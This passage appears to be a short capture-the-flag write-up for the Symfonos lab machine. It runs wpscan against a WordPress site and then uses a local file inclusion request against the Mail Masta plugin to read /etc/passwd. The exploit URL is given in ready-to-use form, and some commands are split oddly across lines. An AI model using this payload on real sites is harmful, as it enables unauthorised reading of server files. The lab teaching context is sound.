



3.1 Wpscan
a) Get an API Token on
https://wpvulndb.com/
.
b) Run "Webscan".
$wpscan
--url http
://
symfonos.local
/
h3l105
/
--enumerate p --api-token <your API token>
Output:

Among other vulnerabilities get the above one.
c) Go to the url.
https://www.exploit-db.com/exploits/40290

d) Try it.
http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd

As a result, we have accessed the passwd file and it proved that this site is vulnerable to LFI.
Index